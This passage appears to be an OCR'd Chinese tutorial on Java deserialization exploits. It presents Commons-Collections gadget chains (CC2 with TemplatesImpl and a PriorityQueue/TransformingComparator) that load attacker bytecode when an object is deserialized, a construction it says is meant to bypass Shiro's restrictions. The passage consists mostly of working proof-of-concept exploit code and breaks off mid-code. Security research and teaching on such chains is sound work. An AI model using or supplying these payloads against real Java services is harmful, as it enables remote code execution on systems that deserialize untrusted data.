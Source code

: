 ```java
        queue.add(1);
        queue.add(2);
        setFieldValue(transformerChain, "iTransformers", transformers);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();
        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```

# CC2与TemplatesImpl

前面说了Shiro这里不能有数组，所以这里我们再试试用TemplatesImpl来构造POC

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Comparator;
import java.util.PriorityQueue;

public class CC2pro {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazzz = pool.get("EvilTest");
        byte[] code = clazzz.toBytecode();
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{code});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        // 无害transformer防止构造时触发
        Transformer transformer = new InvokerTransformer("toString", null, null);
        Comparator comparator = new TransformingComparator(transformer);
        PriorityQueue queue = new PriorityQueue(2,comparator);
        queue.add(obj);
        queue.add(obj);
        setFieldValue(transformer, "iMethodName", "newTransformer");

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();

```